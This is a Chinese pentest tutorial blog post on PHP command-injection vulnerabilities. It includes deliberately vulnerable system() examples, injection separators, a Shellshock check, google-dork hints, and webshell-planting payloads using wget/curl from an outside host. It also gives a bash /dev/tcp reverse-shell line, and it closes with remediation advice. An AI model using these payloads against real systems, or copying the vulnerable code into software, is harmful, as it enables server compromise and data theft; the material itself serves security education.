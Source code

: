 +++
date = "2016-07-24T14:32:51+08:00"
description = ""
draft = false
tags = ["命令执行"]
title = "命令执行漏洞"
topics = ["Pentest"]

+++

### 0x00 命令执行
> ```
应用有时需要调用一些执行系统命令的函数，如PHP中的system、exec、shell_exec、
passthru、popen、proc_popen等，当用户能控制这些函数中的参数时，就可以将恶意系统命令
拼接到正常命令中，从而造成命令执行攻击，这就是命令执行漏洞。
```

### 0x01 利用条件
1. 应用调用执行系统命令的函数
2. 将用户输入作为系统命令的参数拼接到了命令行中
3. 没有对用户输入进行过滤或过滤不严

### 0x02 漏洞分类
1. 代码层过滤不严  
    商业应用的一些核心代码封装在二进制文件中，在web应用中通过system函数来调用：  
    system("/bin/program \-\-arg $arg");
2. 系统的漏洞造成命令执行  
    bash破壳漏洞(CVE-2014-6271)  
    执行```env x='() { :;}; echo vulnerable' bash -c "echo this is a test"```后  
    若输出vulnerable则证明存在漏洞
3. 调用的第三方组件存在代码执行漏洞  
    如WordPress中用来处理图片的ImageMagick组件  
    JAVA中的命令执行漏洞(struts2/ElasticsearchGroovy等)  
    ThinkPHP命令执行

### 0x03 漏洞危害
1. 继承Web服务程序的权限去执行系统命令或读写文件
2. 反弹shell
3. 控制整个网站甚至控制服务器
4. 进一步内网渗透
5. 等等

### 0x04 漏洞挖掘
> 可以google hacking  
尝试：filetype:action或filetype:do来找struts2

### 0x05 漏洞可能代码(以system为例)
> ```php
1. system("$arg");  //直接输入即可
2. system("/bin/prog $arg");  //直接输入;ls
3. system("/bin/prog -p $arg");  //和2一样
4. system("/bin/prog --p=\"$arg\"");  //可以输入";ls;"
5. system("/bin/prog --p='$arg'");  //可以输入';ls;'

在Linux上，上面的;也可以用|、||代替
    ;前面的执行完执行后面的
    |是管道符，显示后面的执行结果
    ||当前面的执行出错时执行后面的

在Windows上，不能用;可以用&、&&、|、||代替
    &前面的语句为假则直接执行后面的
    &&前面的语句为假则直接出错，后面的也不执行
    |直接执行后面的语句
    ||前面出错执行后面的
```

### 0x06 漏洞利用
* 示例一

> ```php
<?php
    $arg = $_GET['cmd'];
    if ($arg) {
        system("$arg");
    }
?>
```
{{% fluid_img src="/img/post/command_execution1.png" alt="命令执行示例1.png" %}}

* 示例二

> ```php
<?php
    $arg = $_GET['cmd'];
    if ($arg) {
        system("ping -c 3 $arg");
    }
```
{{% fluid_img src="/img/post/command_execution2.png" alt="命令执行示例2.png" %}}

* 示例三

> ```php
<?php
    $arg = $_GET['cmd'];
    if ($arg) {
        system("ls -al \"$arg\"");
    }
```
{{% fluid_img src="/img/post/command_execution3.png" alt="命令执行示例3.png" %}}
注：若引号被转义，则可以用<b>\`id\`</b>来执行

* 示例四

> ```php
<?php
    $arg = $_GET['cmd'];
    if ($arg) {
        system("ls -al '$arg'");
    }
```
{{% fluid_img src="/img/post/command_execution4.png" alt="命令执行示例4.png" %}}

### 0x07 其他
* 动态函数调用  
在cmd.php中的代码如下：

> ```php
<?php
    $fun = $_GET['fun'];
    $par = $_GET['par'];
    $fun($par);
?>

提交http://localhost/cmd.php?fun=system&par=net user，  
最终执行的是system("net user")
```

### 0x08 关于获取webshell
> **要有写权限！**
```
1.得到当前或绝对路径(可以用pwd)
2.写文件:
    用?cmd=echo "<?php phpinfo()?>" > /var/www/html/info.php
    或?cmd=wget -O /var/www/html/info.php http://www.xx.com/phpinfo.txt
    或?cmd=curl http://www.xx.com/phpinfo.txt > /var/www/html/info.php
```

### 0x09 反弹shell
> ```
远程执行nc -vlp 8888
?cmd=bash -i >& /dev/tcp/10.0.0.1/8888 0>&1
```

### 0x0A 漏洞修复
1. 尽量少用执行命令的函数或者直接禁用
2. 参数值尽量使用引号包括
3. 在使用动态函数之前，确保使用的函数是指定的函数之一
4. 在进入执行命令的函数/方法之前，对参数进行过滤，对敏感字符进行转义

> ```php
<?php
    $arg = $_GET['cmd'];
    // $arg = addslashes($arg);
    $arg = escapeshellcmd($arg);  //拼接前就处理
    if ($arg) {
        system("ls -al '$arg'");
    }
?>
```